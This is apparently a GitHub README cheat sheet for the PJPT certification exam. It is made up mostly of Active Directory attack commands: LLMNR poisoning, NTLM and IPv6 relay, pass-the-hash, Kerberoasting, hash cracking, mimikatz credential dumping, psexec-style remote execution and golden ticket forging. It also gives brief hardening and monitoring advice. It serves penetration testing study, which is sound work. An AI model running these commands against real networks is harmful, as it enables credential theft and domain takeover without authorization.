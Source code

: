 
# 🛡️ PJPT Cheat Sheet

**Practical Junior Penetration Tester (PJPT) Internal Pentest Cheat Sheet**

This repository provides a comprehensive and field-tested cheat sheet tailored for candidates preparing for the **PJPT certification** by **TCM Security**. It covers key tools, commands, and techniques commonly used during internal network penetration tests—especially those focused on Active Directory environments.

You'll find organized sections for reconnaissance, initial access, credential attacks (like LLMNR poisoning, Kerberoasting, and pass-the-hash), post-exploitation, ticket-based persistence, and cleanup strategies. Each section is designed to be clear, actionable, and exam-relevant, helping you quickly recall syntax and methodology under pressure.

Whether you're actively taking the PJPT exam or sharpening your red team skills, this cheat sheet offers a solid technical reference to support your workflow.

---

## 🧭 Recon & Enumeration

```bash
arp-scan -l
netdiscover -r <subnet>
nmap -T4 -p- -sS -A <target>
```

## 🏹 Initial Active Directory Attacks

### 🔄 LLMNR Poisoning

```bash
responder -I tun0 -dwPv
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### 📎 SMB Relay

```bash
nmap --script=smb2-security-mode.nse -p445 <subnet>
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

### 🌐 IPv6 Relay via LDAPS

```bash
mitm6 -d domain.local
ntlmrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.domain.local
```

## 🔐 Credential Access & Post-Exploitation

### 🧱 Pass-the-Hash

```bash
crackmapexec smb <subnet> -u administrator -H <NTLM-hash>
```

### 🔥 Kerberoasting

```bash
GetUserSPNs.py DOMAIN/user:pass -dc-ip <DC-IP> -request
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

### 💾 Credential Dumping

```bash
secretsdump.py DOMAIN/user:pass@<host>
meterpreter > hashdump
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords
```

## ⚙ Remote Code Execution Techniques

### 🖥️ PSEXEC (Impacket)

```bash
psexec.py DOMAIN/user:pass@<target>
```

### 💣 Metasploit PSEXEC

```bash
use exploit/windows/smb/psexec
set RHOST <target>
set SMBUser <user>
set SMBPass <password>
```

### 🔄 WMIExec

```bash
wmiexec.py administrator@<target> --hashes <LM>:<NTLM>
```

## 🎟️ Ticket Attacks & Persistence

### 🎫 TGT Harvesting

```bash
getTGT.py DOMAIN/fservice:pass -dc-ip <DC-IP>
export KRB5CCNAME=fservice.ccache
klist
```

### 🥇 Golden Ticket Attack

```powershell
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # kerberos::golden /User:Administrator /domain:domain.local \
 /sid:<SID> /krbtgt:<hash> /id:<RID> /ptt
```

## 🧠 Additional Techniques

- **AS-REP Roasting** (against users without Kerberos pre-auth)
- **Zerologon (CVE-2020-1472)** — exploit Netlogon flaw
- **PrintNightmare (CVE-2021-1675)** — RCE via print spooler

---

## 📌 Cleanup & Monitoring Recommendations

- Rotate compromised accounts & service passwords
- Enforce SMB signing, disable LLMNR & NetBIOS
- Monitor for tools like: `responder`, `mitm6`, `ntlmrelayx`, `psexec`, `mimikatz`

---

> ✍️ This cheat sheet was created as a personal reference for the PJPT exam. Use responsibly and only in authorized environments.
